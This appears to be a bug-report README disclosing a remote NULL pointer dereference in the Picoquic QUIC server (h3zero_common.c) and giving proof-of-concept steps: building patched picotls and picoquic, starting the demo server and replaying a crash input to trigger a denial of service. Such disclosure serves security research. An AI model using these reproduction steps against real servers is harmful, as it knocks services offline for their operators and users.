 # Bug M2

## Product: Pioquic
### Github repository: [https://github.com/private-octopus/picoquic](https://github.com/private-octopus/picoquic)
### Affected version: [8f4f77f](https://github.com/private-octopus/picoquic/commit/8f4f77f854cac40d8ff1a72fa60804c83b3aed60) until [6f1c5f4a](https://github.com/private-octopus/picoquic/commit/6f1c5f4a7721b25604460b0d36cb5375088a716c)
### Fixed version: N/A
### Affected QUIC implementations : Picoquic

### Bug summary:
A NULL pointer dereference causes the server to crash, which can result in a Denial of Service attack.

### Bug details:
The program access the NULL pointer at ```picohttp/h3zero_common.c:727``` when ```mempcpy()```from a STREAM frame.

### Attack vector:
Remote attacker.

### PoC
Build the Picoquic server as described in the following (assumed you are in same directory as this README.md):
```bash
git clone https://github.com/h2o/picotls.git
cd picotls
git submodule init
git submodule update
git apply ../picotls.patch
cmake -DCMAKE_C_FLAGS="-fPIC" .
make
cd ..

git clone https://github.com/private-octopus/picoquic.git
cd picoquic
git apply ../picoquic.patch
cmake -DCMAKE_BUILD_TYPE=Release -DCMAKE_C_FLAGS="-fsanitize=address" -DCMAKE_CXX_FLAGS="-fsanitize=address" -DCMAKE_EXE_LINKER_FLAGS="-fsanitize=address" .
make clean all
cd ..

# start the server (use the cert and key provided)
picoquic/picoquicdemo -R 0 -p 4433 -c server-cert.pem  -k server-key.pem
```
Open another terminal, build the replay_crash program and run with the given crash input (assumed you are in same directory as this README.md):
```bash
cd ..
make
cd m2
../replay_crash picoquic_crash 4433
```